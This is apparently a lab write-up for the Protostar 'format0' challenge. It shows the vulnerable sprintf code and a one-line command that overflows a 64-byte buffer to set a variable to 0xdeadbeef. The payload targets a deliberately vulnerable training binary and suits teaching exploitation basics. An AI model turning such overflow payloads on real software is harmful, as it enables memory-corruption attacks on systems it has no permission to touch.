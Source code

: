 <h2>Goal</h2>

Looking at the source code for Format0, this is more akin to a buffer overflow.  The goal is to write over the variable `target` with `0xdeadbeef`, by overflowing the `buffer` variable.  The only difference between stack1 and this level is that the overwriting of `target` occurs in the `sprintf` function instead of a `strcpy`. This function is part of a special type of ANSI C function.  More in-depth explanation to format string exploits check out the following paper: [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

```c
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
```



<h2>Solution</h2>

This solution for this challenge is the actuall similar to the stack1 challenge. Fill the buffer with 64 bytes, then put in the required value `0xdeadbeef`. Keep in mind this challenge requires passing a argument, it does not take standard input after execution.

```bash 
./format0 `python -c 'import struct ; print"A"*64+struct.pack("I", 0xdeadbeef)'`
```
